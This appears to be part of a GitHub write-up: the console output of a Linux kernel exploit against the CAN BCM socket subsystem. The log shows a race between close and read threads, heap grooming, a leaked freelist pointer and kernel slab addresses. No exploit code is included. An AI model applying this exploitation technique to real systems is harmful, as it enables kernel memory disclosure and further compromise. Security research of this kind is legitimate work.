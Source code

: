 ```
# make verbose
# ./exploit
[*] - Disabling stdout buffering
[*] - Checking number of CPUs available
[*] - CPUs available: 4
[*] - Setting up CPU affinity spare thread CPU 3
[*] - Socket created successfully
[*] - Socket connected successfully
[*] - CAN BCM entry: 26113
[*] - Setting up CPU affinity main thread CPU 2
[*] - Preparing the cache
[*] - Allocating 1600 objects
[*] - Freeing 16 objects
[*] - Allocating target object
[*] - Setting up CPU affinity spare thread CPU 3
[*] - Freeing remaining objects
[*] - Creating close thread
[*] - Creating read threads
[*] - The race starts, releasing race barriers
[*] - Waiting...
[*] - Finishing read threads
[*] - 16 objects obtained
[*] - Validating the first entry
[*] - First entry validated
[*] - Validating the other 15 objects
[*] - All objects validated

Leaked freelist encoded null pointer: 0x42176b695538ae68


slab[0] =	0xffff88800710b000
slab[1] =	0xffff88800710b200
slab[2] =	0xffff88800710b400
slab[3] =	0xffff88800710b600
slab[4] =	0xffff88800710b800
slab[5] =	0xffff88800710ba00
slab[6] =	0xffff88800710bc00
slab[7] =	0xffff88800710be00
slab[8] =	0xffff88800710c000
slab[9] =	0xffff88800710c200
slab[10] =	0xffff88800710c400
slab[11] =	0xffff88800710c600
slab[12] =	0xffff88800710c800
slab[13] =	0xffff88800710ca00
slab[14] =	0xffff88800710cc00
slab[15] =	0xffff88800710ce00

[*] - Finishing close thread
[*] - Exiting...
#
```
